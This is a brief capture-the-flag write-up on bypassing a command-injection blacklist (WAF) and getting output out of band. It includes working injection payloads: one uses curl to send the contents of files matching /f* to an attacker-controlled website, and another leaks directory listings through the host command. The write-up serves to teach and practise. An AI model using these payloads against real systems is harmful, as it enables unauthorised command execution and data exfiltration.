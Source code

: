 * Category
  * OS Command Injection
  * WAF
  * Out of Band
* Solution
  1. How to bypass blacklist?
     * ```$(...)```
  2. How to know the command's output?
     * Warning message of linux 
  3. How to show root directory?
     * ```system``` only returns stdout's content
       * ```ls /``` outputs too much content $\rightarrow$ ```host``` returns stderr
     * Three method
       1. send the return value to outside (other website to inspect http)
          * ```ngrok http 5000``` can open http locally and forward network to local
       2. guess the flag file starts with ```flag``` and ```cat``` directly
       3. ```printf```
* Payload
  1. ```'"$(curl CONTROLLED-WEBSITE --data $(cat /f*))"'```
  2. ```'"$(printf '%s.' $(ls ../../../))"'```
     * ```.``` is necessary since host's input needs to be a valid syntax of domain name
     * ```.``` will concatenate the parameters with separation = '.'
* Reference
  * [Assign the output of a command to a shell variable](https://unix.stackexchange.com/questions/16024/how-can-i-assign-the-output-of-a-command-to-a-shell-variable)
* ```FLAG{Y0U_$(Byp4ssed)_th3_`waf`}```